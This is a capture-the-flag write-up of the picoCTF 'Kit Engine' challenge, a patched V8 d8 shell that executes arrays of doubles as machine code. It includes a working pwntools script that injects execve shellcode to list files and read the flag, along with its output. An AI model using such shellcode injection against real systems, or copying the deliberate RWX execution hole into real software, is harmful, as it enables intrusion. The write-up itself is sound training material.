 ```yaml
---
layout: post
title: V8 exploitation - picoCTF Kit Engine
tags: [CTF, pwn]
---
```

> Start your engines!! [d8](https://mercury.picoctf.net/static/9ed7e29037f1cb272de5dfe15e08d206/d8) [source.tar.gz](https://mercury.picoctf.net/static/9ed7e29037f1cb272de5dfe15e08d206/source.tar.gz) [server.py](https://mercury.picoctf.net/static/9ed7e29037f1cb272de5dfe15e08d206/server.py) Connect at mercury.picoctf.net 11433

## Overview
Executing the binary `d8` we're given a shelly thing.
```
❯ ./d8
V8 version 9.1.0 (candidate)
d8>
```
It turns out to be [the developer shell](https://v8.dev/docs/d8) of Google's V8 JavaScript engine. It
>  is useful for running some JavaScript locally or debugging changes you have made to V8.

Also there's a `patch` file with some modifications to the code. So this challenge is actually a modified version of the original `d8`. The most interesting part of `patch` is `AssembleEngine`.
```c
void Shell::AssembleEngine(const v8::FunctionCallbackInfo<v8::Value>& args) {
  Isolate* isolate = args.GetIsolate();
  if(args.Length() != 1) {
    return;
  }

  double *func = (double *)mmap(NULL, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (func == (double *)-1) {
    printf("Unable to allocate memory. Contact admin\n");
    return;
  }

  if (args[0]->IsArray()) {
    Local<Array> arr = args[0].As<Array>();

    Local<Value> element;
    for (uint32_t i = 0; i < arr->Length(); i++) {
      if (arr->Get(isolate->GetCurrentContext(), i).ToLocal(&element) && element->IsNumber()) {
        Local<Number> val = element.As<Number>();
        func[i] = val->Value();
      }
    }

    printf("Memory Dump. Watch your endianness!!:\n");
    for (uint32_t i = 0; i < arr->Length(); i++) {
      printf("%d: float %f hex %lx\n", i, func[i], doubleToUint64_t(func[i]));
    }

    printf("Starting your engine!!\n");
    void (*foo)() = (void(*)())func;
    foo();
  }
  printf("Done\n");
}
```
The `AssembleEngine` will execute shellcode in `double[]` format.

## Attack
The attack plan is simple, either spawn a shell or call `ls` then `cat`. Spawning a shell is not possible because we only see the result of execution.
```python
#!/usr/bin/env python3 

# With credit/inspiration to the v8 problem in downUnder CTF 2020

import os
import subprocess
import sys
import tempfile

def p(a):
    print(a, flush=True)

MAX_SIZE = 20000
input_size = int(input("Provide size. Must be < 5k:"))
if input_size >= MAX_SIZE:
    p(f"Received size of {input_size}, which is too big")
    sys.exit(-1)
p(f"Provide script please!!")
script_contents = sys.stdin.read(input_size)
p(script_contents)
# Don't buffer
with tempfile.NamedTemporaryFile(buffering=0) as f:
    f.write(script_contents.encode("utf-8"))
    p("File written. Running. Timeout is 20s")
    res = subprocess.run(["./d8", f.name], timeout=20, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    p("Run Complete")
    p(f"Stdout {res.stdout}")
    p(f"Stderr {res.stderr}")
```
Here we're using the go-to tool `shellcraft` from `pwntool` to create shellcode for us. All we have to do is convert the shellcode to `double[]` format.
```python
from pwn import *
import struct

context.arch = 'amd64'

ls = asm(shellcraft.execve(b"/bin/ls", ["ls"]))
cat = asm(shellcraft.execve(b"/bin/cat", ["cat", "flag.txt"]))

def convert_to_double_array(shellcode: bytes) -> list[float]:
  res: list[float] = []
  for i in range(0, len(shellcode), 8):
    block = shellcode[i:i+8]
    if len(block) < 8:
      block = block + b"\0" * (8 - len(block))
    res.append(struct.unpack("<d", block)[0])
  return res

def run(shellcode: list[float]):
  code = f"AssembleEngine([{', '.join(map(str, shellcode))}])"
  p = remote("mercury.picoctf.net", 11433)
  p.sendlineafter(b"Provide size", str(len(code)))
  p.sendlineafter(b"Provide script", code)
  print(p.recvall().decode())

run(convert_to_double_array(ls))
run(convert_to_double_array(cat))
```
```
❯ python3 ./solve.py
[+] Opening connection to mercury.picoctf.net on port 11433: Done
/home/nick/coding/ctf/pwn/kit-engine/./solve.py:54: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(b"Provide size", str(len(code)))
/home/nick/coding/ctf/pwn/kit-engine/./solve.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(b"Provide script", code)
[+] Receiving all data: Done (344B)
[*] Closed connection to mercury.picoctf.net port 11433
 please!!
AssembleEngine([7.748604185565308e-304, 7.001521162788231e+194, 1.773290430551938e-288, 1.0748503232447379e-301, 7.748605141607601e-304, 1.776650735790609e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'd8\nflag.txt\nserver.py\nsource.tar.gz\nxinet_startup.sh\n'
Stderr b''

[+] Opening connection to mercury.picoctf.net on port 11433: Done
[+] Receiving all data: Done (372B)
[*] Closed connection to mercury.picoctf.net port 11433
 please!!
AssembleEngine([8.191473375206089e-79, 3.775826202043335e+79, 1.1205295651588473e+253, 7.748604185565308e-304, 2.460307022775963e+257, 1.7734484618746183e-288, 4.089989556334856e+40, 1.7766596360849696e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{vr00m_vr00m_943e7e61a1bb0159}\n'
Stderr b''
```

## Reference
- [https://blog.maple3142.net/2021/03/30/picoctf-2021-writeups/#kit-engine](https://blog.maple3142.net/2021/03/30/picoctf-2021-writeups/#kit-engine)